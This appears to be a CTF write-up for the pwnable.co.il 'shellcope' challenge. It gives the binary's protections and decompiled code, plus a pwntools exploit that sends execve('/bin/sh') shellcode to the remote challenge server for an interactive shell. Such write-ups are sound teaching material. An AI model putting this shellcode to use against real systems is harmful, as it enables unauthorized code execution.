 ```yaml
---
title: "pwnable.co.il - shellcope"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "Shellcode customize challenge."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> I just learned how to write shellcode!
> But i'm not sure where to store things if i don't have a stack... 

### Protections:
<pre>    
    Arch:       amd64-64-little
    RELRO:      <font color="#49FF6D">Full RELRO</font>
    Stack:      <font color="#FF3C3C">No canary found</font>
    NX:         <font color="#49FF6D">NX enabled</font>
    PIE:        <font color="#49FF6D">PIE enabled</font>
    SHSTK:      <font color="#49FF6D">Enabled</font>
    IBT:        <font color="#49FF6D">Enabled</font>
    Stripped:   <font color="#FF3C3C">No</font>
</pre>

Code dump in C of the decompiled main function:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char *dest; // [rsp+8h] [rbp-8h]

  dest = (char *)mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
  strcpy(dest, reset_shellcodes);
  fgets(dest + 48, 4047, stdin);
  mprotect(dest, 0x1000uLL, 5);
  ((void (*)(void))dest)();
  return 0;
}
```

`reset_shellcodes` points to a sequence of opcodes stored in the `.data` section:
[![static symbols](/assets/images/ctf-writeups/pwnable.co.il/shellcope/reset_shellcodes_dump.png)](/assets/images/ctf-writeups/pwnable.co.il/shellcope/reset_shellcodes_dump.png)

The main function maps a 0x1000 bytes (page size - 4096 in decimal) using `mmap()`, copies the predefined opcodes from `reset_shellcodes` into that page using `strcpy()`, 
then reads up to `4047` bytes from `stdin` into the page starting at offset 48 (appending the user provided instructions). 
It then calls `mprotect()` to set the page permissions to `read + execute` and finally jumps to the mapped page to run the combined shellcodes.

## Exploit
```python
from pwn import *

def main():
    ### context ###
    context.arch = 'amd64'  # Ensure 64-bit architecture

    ### run ###
    #p = process("./shellcope")
    p = remote("pwnable.co.il", 9001)

    ### payload start ###
    shellcode = """
    jmp code

    shell:
        .ascii "/bin/sh\\x00"     

    code:
        xor rsi, rsi          
        xor rdx, rdx             
        lea rdi, [rip+shell]     
        mov al, 0x3b             
        syscall               
    """

    payload = asm(shellcode)
    p.sendline(payload)
    p.interactive()

if __name__ == "__main__":
    main()
```
